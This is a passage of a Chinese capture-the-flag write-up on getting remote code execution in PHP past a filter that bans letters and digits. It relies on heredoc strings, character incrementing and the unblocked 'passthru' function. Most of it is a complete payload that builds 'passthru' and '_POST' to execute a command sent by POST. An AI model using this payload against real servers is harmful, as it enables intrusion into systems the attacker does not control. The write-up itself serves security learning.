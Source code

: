 > 无字母数字rce无疑，由此可以自增获得所有字母，然后就是历时1天的尝试了，
>
> 第一个点是无引号定义字符串，这里是用官方文档的第三种方式<<<来定义
>
> 第二个点是自增，因为有了个C，可以从`C++ => D`而获得所有字母A-Z；
>
> > 摘自官方文档：
> >
> > 在处理字符变量的算数运算时，PHP 沿袭了 Perl 的习惯，而非 C 的。例如，在 Perl 中 `$a = 'Z'; $a++;` 将把 `$a` 变成`'AA'`，而在 C 中，`a = 'Z'; a++;` 将把 `a` 变成 `'['`（`'Z'` 的 ASCII 值是 90，`'['` 的 ASCII 值是 91）。注意字符变量只能递增，不能递减，并且只支持纯字母（a-z 和 A-Z）。递增／递减其他字符变量则无效，原字符串没有变化。
>
> 这里直接用disable的漏网之鱼`passthru`进行命令执行
>
> payload：用的时候要把注释内容删去，并且进行url编码
>
> ```php
> $_=<<<_
> C
> _;
> $__=<<<C
> _
> C;
> 
> $_++;$_++;
> $_++;$_++;
> $_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___=$_[1]; // A
> 
> $_0=$___; // a
> $___++;$_1=$___; // b
> $___++;$_2=$___; // c
> $___++;$_3=$___; // d
> $___++;$__1=$___; // e
> $___++;$__2=$___; // f
> $___++;$__3=$___; // g
> $___++;$___1=$___; // h
> $___++;$___2=$___; // i
> $___++;$___3=$___; // j
> $___++;$____1=$___; // k
> $___++;$____2=$___; // l
> $___++;$____3=$___; // m
> $___++;$_____1=$___; // n
> $___++;$_____2=$___; // o
> $___++;$_____3=$___; // p
> $___++;$______1=$___; // q
> $___++;$______2=$___; // r
> $___++;$______3=$___; // s
> $___++;$_______1=$___; // t
> $___++;$_______2=$___; // u
> $___++;$_______3=$___; // v
> $___++;$________1=$___; // w
> $___++;$________2=$___; // x
> $___++;$________3=$___; // y
> $___++;$_________1=$___; // z
> 
> $_01=$_____3.$_0.$______3.$______3.$_______1.$___1.$______2.$_______2;//passthru
> $_02=$__.$_____3.$_____2.$______3.$_______1; //_post
> $__=$$_02;
> $_01($__[_]);
> ```
>
> post的表单数据：
>